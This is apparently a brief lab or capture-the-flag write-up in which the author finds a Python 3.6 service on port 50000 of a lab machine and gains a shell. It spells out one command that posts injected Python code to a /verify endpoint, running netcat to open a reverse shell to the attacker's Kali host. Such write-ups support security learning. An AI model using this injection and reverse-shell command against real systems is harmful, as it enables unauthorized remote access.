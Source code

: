 #### -As found from the nmap scan port 50000 is running python 3.6 I typed "os" as a module and find the following showing the existence of it running python 3.6 module:

![](../Pasted%20Images/Pasted%20image%2020220601140834.png)

#### -Ran a netcat listener on port 18000 and typed "curl -X POST --data "code=os.system('nc -e /bin/bash [kali IP] 18000')" http://192.168.241.117:50000/verify" and got a reverse shell:

![](../Pasted%20Images/Pasted%20image%2020220601141226.png)

![](../Pasted%20Images/Pasted%20image%2020220601141234.png)



